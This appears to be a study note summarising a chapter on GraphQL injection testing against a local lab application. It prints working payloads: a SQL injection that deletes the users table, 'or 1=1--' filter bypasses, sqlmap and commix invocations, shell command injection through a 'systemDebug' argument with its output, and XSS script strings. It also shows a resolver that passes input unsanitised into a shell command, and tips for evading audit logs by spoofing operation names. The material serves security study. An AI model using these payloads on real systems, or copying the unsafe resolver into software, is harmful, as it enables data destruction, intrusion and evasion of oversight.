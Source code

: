 # Injection Vulnerabilities in GraphQL

### **Introduction**

Injection vulnerabilities occur when an application accepts and processes untrustworthy input without any sanitization. Sanitization is a security measure that involves checking input and removing potentially dangerous characters from it. The absence of such a check could allow the input to be interpreted as a command or a query and execute on either the client side or server side.

### **The Injection Surface**&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Network trust boundaries</p></figcaption></figure>

{% embed url="https://owasp.org/API-Security/editions/2023/en/0x11-t10/" %}

GraphQL presents a wide attack surface due to various points where user input can be injected. These include:

* **Query Arguments:** These are parameters supplied to fields in a GraphQL query. The chapter illustrates how the `pastes` field can take a `filter` argument, which can be vulnerable to SQL injection.

```graphql
# Query Inputs
query {
    pastes(limit: 100) {
        id
        ipAddr
    }
}
------------------------------
# Mutation input points
mutation {
    createPaste(content: "Some content", title:"Some title", public: false) {
        paste {
            id
            ipAddr
        }
    }
}
```

**Exploit**

```graphql
# exploit sql injection 
mutation {
    createPaste(content: "content'); DELETE FROM users; --") {
        paste {
            id
            ipAddr
        }
    }
}
```

* **Field Arguments**: GraphQL fields can also accept arguments that can be manipulated. The example provided involves the `username` field, which is shown to accept a `capitalize` argument.

```graphql
query {
    users {
        username(capitalize: true)
        id
    }
}
```

* **Query Directive Arguments:** Directives modify field behavior, and their arguments can also be a point of injection. An example is a `show_network` directive with a `style` argument.

```graphql
query {
    pastes {
        id
        ipAddr @show_network(style: "cidr")
    }
}
```

You can use the introspection query shown in  to get only the available directives by using the `__schema` meta-field with the directives field.

```graphql
query GetDirectives {
    __schema {
        directives {
            name
            description
            locations
        }
    }
}
```

* **Operation Names:** Clients can define operation names, and these can be manipulated to potentially bypass security measures or mislead log analysis. An example involves spoofing the operation name to bypass audit logging, for example using `SpoofedOperationName` instead of `createPaste`.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Executing a selected query based on its operation name in GraphiQL Explorer</p></figcaption></figure>

* **Input Entry Points:** Any place where user-controlled data is input, such as fields in mutations, which are used to create, update, or delete data, can be injection points. The `createPaste` mutation, which uses `content`, `title`, and `public` arguments, is one example.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

* **SQL Injection (SQLi):** The chapter dedicates significant attention to SQL injection, explaining that it can occur when user input is used to construct SQL queries.
  * **Identification:** The chapter advises focusing on fields that accept string values and have names suggesting filtering, such as the `filter` argument in the `pastes` query.
  * **Manual Testing**: Techniques for testing SQL injection manually include using single (') or double (") quotes in input fields to observe how the application responds.
  * **Exploitation:** The chapter explains how to exploit SQLi by using SQL commands, such as `OR 1=1--`, within the filter argument to bypass intended filtering and retrieve all records.
  * **Automated Testing:** The chapter introduces **SQLmap**, a tool for automating SQL injection tests, and explains how to use it to read HTTP requests from a file and test for vulnerabilities.
  * **Database Fingerprinting**: Error messages from the database can be verbose and reveal the database structure to the attacker including table names.
  * **Types of SQL Injection**: The chapter mentions different types of SQLi, such as **blind SQL injection**, **Boolean-based SQL injection**, **error-based SQL injection**, and **time-based SQL injection**.

```graphql
query {
    pastes(filter:"My First Paste'") {
        id
        content
        title
    }
}
----------------------------
query {
    pastes(filter:"My First Paste' or 1=1--") {
        title
        content
    }
}
---------------------------
sqlmap -r request.txt --dbms=sqlite --tables

```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

* **Operating System Command Injection:** The chapter explains how a GraphQL API can be vulnerable to OS command injection, for example when user input is incorporated into system commands.
  * **Code Review:** The chapter highlights the importance of reviewing resolver functions to identify where user inputs are used in OS commands.
  * **Manual Testing**: The chapter demonstrates a manual attack by showing how the `systemDebug` field's `arg` argument can be manipulated to execute commands by using a semicolon to separate them.
  * **Automated Testing:** The chapter introduces **Commix**, a tool that automates OS command injection testing by fuzzing various inputs. It explains how Commix can be used to test variations of payloads, characters, and methods and then save valuable time.

{% code overflow="wrap" %}
```graphql
query {
    systemDebug
}
------------------
query {
    systemDebug(arg:"; uptime")
}
-------------------------
# opuput
PID TTY TIME CMD\n 11999 pts/1 14050 pts/1 1 user, load average: 0.71, 0.84, 0.91\n"\ 00:00:00 bash\n

--------------------
# Automation
commix --url="http://127.0.0.1:5013/graphql" --data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg
```
{% endcode %}

* **Cross-Site Scripting (XSS):** The chapter discusses how to test for XSS vulnerabilities in GraphQL applications, focusing on three main types of XSS:
  * **Reflected XSS:** The chapter explains that reflected XSS can occur when a malicious script is injected into a request and then reflected back to the user in the response.
  * **Stored XSS:** The chapter notes that stored XSS occurs when malicious code is stored on the server, which can then be executed by other users accessing that data.
  * **DOM-Based XSS:** The chapter explains that DOM-based XSS can be exploited by manipulating the client-side JavaScript.
  * **Testing:** The chapter demonstrates how to test for XSS by inserting JavaScript code, such as `<script>alert("XSS")</script>`, into a mutation’s input fields like the `content` field of `createPaste`, and see if the injected script executes.

```graphql
query {
    hello(msg:"<script>document.cookie;</script>")
}
---------------------------
http://example.com/graphql?query=query%20%7B%0A%20%20hello(msg%3A%22hello%22)%0A%7D
----------------------------
http://example.com/graphql?query=query {hello(msg:"hello")}
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>A stored XSS vulnerability impacting adjacent applications</p></figcaption></figure>



* **Importance of Resolver Functions:** The chapter underscores that understanding how resolver functions process client data is important for finding injection points. Reviewing resolver functions can reveal how inputs are handled and whether they are properly sanitized.

```python
def resolve_system_debug(self, info, arg=None):
    Audit.create_audit_entry(info)
    if arg:
        output = helpers.run_cmd('ps {}'.format(arg))
    else:
        output = helpers.run_cmd('ps')
    return output
```

* **Bypassing Security Measures:** The chapter notes that attackers can attempt to bypass security measures by manipulating GraphQL operation names. This can sometimes avoid audit logging or make malicious requests appear benign.
